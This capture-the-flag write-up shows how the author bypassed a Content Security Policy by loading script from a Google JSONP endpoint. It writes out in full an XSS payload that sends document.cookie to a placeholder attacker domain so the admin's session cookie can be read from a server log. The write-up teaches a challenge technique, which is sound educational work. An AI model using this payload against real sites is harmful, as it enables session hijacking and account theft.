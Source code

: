 # WRITEUP BABYCSP

## Author: p4w @beerpwn team

![Image desc](./description.png)

As the descrption/title say we will probably need to bypass CSP to trigger some XSS in order to steal the admin cookies.
Sufing to the index page we have this:

![Image desc](./index.png)

The input that we can pass is totally NOT filtered and safe from XSS.

## Understanding the CSP
The ```script-src 'self' *.google.com``` directive permit to use scripts that are coming from *.google.com, and also from the same domain.
The ```connect-src *``` directive restricts the URLs which can be loaded using script interfaces. Then in this case every URL are allowed.

## Bypassing the CSP
This is what I was thinking during the CTF:
since we can't control directily any file contents from the same domain, then we can try to 'host' some XSS payload on google subdomain. At the beginning I tried to use googleDrive to host some XSS-file but i had no lucky with that and I dind't manage to serve the raw file from google subdomains. So the second idea that comes in my mind was to use JSONP callback. More info about JSONP <a href="https://www.w3schools.com/js/js_json_jsonp.asp">here</a>. So after a bit of googling I found <a href='https://github.com/zigoo0/JSONBee'>this</a> page. So I used this ```https://cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()``` endpoint for JSONP callback.

![Image index](./alert_jsonp.png)

## Fire the XSS
Now with this payload
`<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()'></script>`
we will be able to pop up an alert bypassing the CSP.
The only problem that I had to solve now is that some character are not usable with this JSONP endpoint as we can see here:

![Image index](./banned_char_enum.png)

This characters `? / ,` and probably more others are not allowed to construct the callback function.
So I comed up with this payload to avoid the bad chars:
<code>
<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=location.replace(String.fromCharCode(47).concat(String.fromCharCode(47).concat("your-domain-here").concat(String.fromCharCode(47).concat(document.cookie))))'></script>
</code>

With this payload we can grab the admin-cookie by reading access.log file of our server:

![Image index](./server_log.png)

flag: flag{csp_will_solve_EVERYTHING}
